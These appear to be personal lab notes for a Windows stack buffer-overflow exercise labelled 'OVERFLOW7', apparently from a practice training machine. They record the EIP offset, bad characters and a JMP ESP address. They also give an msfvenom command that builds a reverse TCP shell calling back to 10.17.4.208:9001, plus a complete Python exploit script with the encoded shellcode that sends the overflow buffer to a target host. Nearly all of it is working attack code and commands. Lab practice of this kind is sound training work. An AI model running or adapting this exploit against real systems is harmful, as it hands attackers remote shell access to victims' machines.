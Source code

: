 ## fuzzing

![[Pasted image 20210530153226.png]]

## offset

EIP: 72423572

offset: 1306

![[Pasted image 20210530153426.png]]

## bad chars

ESP: 0188FA30

bardchars: `\x00\x8c\xae\xbe\xfb`

![[Pasted image 20210530153654.png]]

## jmp point

625011AF

little endian: `\xaf\x11\x50\x62`

![[Pasted image 20210530153950.png]]

## exploit 

`msfvenom -p windows/shell_reverse_tcp LHOST=10.17.4.208 LPORT=9001 EXITFUNC=thread -f c -a x86 --platform windows -b "\x00\x8c\xae\xbe\xfb"`

![[Pasted image 20210530154141.png]]

```python
import socket

ip = "10.10.171.241"
port = 1337

prefix = "OVERFLOW7 "
offset = 1306
overflow = "A" * offset
retn = "\xaf\x11\x50\x62"
padding = "\x90" * 16
payload = (
"\x29\xc9\x83\xe9\xaf\xe8\xff\xff\xff\xff\xc0\x5e\x81\x76\x0e"
"\x3f\x16\x21\x60\x83\xee\xfc\xe2\xf4\xc3\xfe\xa3\x60\x3f\x16"
"\x41\xe9\xda\x27\xe1\x04\xb4\x46\x11\xeb\x6d\x1a\xaa\x32\x2b"
"\x9d\x53\x48\x30\xa1\x6b\x46\x0e\xe9\x8d\x5c\x5e\x6a\x23\x4c"
"\x1f\xd7\xee\x6d\x3e\xd1\xc3\x92\x6d\x41\xaa\x32\x2f\x9d\x6b"
"\x5c\xb4\x5a\x30\x18\xdc\x5e\x20\xb1\x6e\x9d\x78\x40\x3e\xc5"
"\xaa\x29\x27\xf5\x1b\x29\xb4\x22\xaa\x61\xe9\x27\xde\xcc\xfe"
"\xd9\x2c\x61\xf8\x2e\xc1\x15\xc9\x15\x5c\x98\x04\x6b\x05\x15"
"\xdb\x4e\xaa\x38\x1b\x17\xf2\x06\xb4\x1a\x6a\xeb\x67\x0a\x20"
"\xb3\xb4\x12\xaa\x61\xef\x9f\x65\x44\x1b\x4d\x7a\x01\x66\x4c"
"\x70\x9f\xdf\x49\x7e\x3a\xb4\x04\xca\xed\x62\x7e\x12\x52\x3f"
"\x16\x49\x17\x4c\x24\x7e\x34\x57\x5a\x56\x46\x38\xe9\xf4\xd8"
"\xaf\x17\x21\x60\x16\xd2\x75\x30\x57\x3f\xa1\x0b\x3f\xe9\xf4"
"\x30\x6f\x46\x71\x20\x6f\x56\x71\x08\xd5\x19\xfe\x80\xc0\xc3"
"\xb6\x0a\x3a\x7e\x2b\x71\x3b\xc6\x49\x62\x3f\x35\x08\xe9\xd9"
"\x7c\x31\x36\x68\x7e\xb8\xc5\x4b\x77\xde\xb5\xba\xd6\x55\x6c"
"\xc0\x58\x29\x15\xd3\x7e\xd1\xd5\x9d\x40\xde\xb5\x57\x75\x4c"
"\x04\x3f\x9f\xc2\x37\x68\x41\x10\x96\x55\x04\x78\x36\xdd\xeb"
"\x47\xa7\x7b\x32\x1d\x61\x3e\x9b\x65\x44\x2f\xd0\x21\x24\x6b"
"\x46\x77\x36\x69\x50\x77\x2e\x69\x40\x72\x36\x57\x6f\xed\x5f"
"\xb9\xe9\xf4\xe9\xdf\x58\x77\x26\xc0\x26\x49\x68\xb8\x0b\x41"
"\x9f\xea\xad\xc1\x7d\x15\x1c\x49\xc6\xaa\xab\xbc\x9f\xea\x2a"
"\x27\x1c\x35\x96\xda\x80\x4a\x13\x9a\x27\x2c\x64\x4e\x0a\x3f"
"\x45\xde\xb5"
)

postfix = ""

buffer = prefix + overflow + retn + padding + payload  + postfix

s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)

try:
  s.connect((ip, port))
  print("Sending evil buffer...")
  s.send(bytes(buffer + "\r\n", "latin-1"))
  print("Done!")
except:
  print("Could not connect.")
```

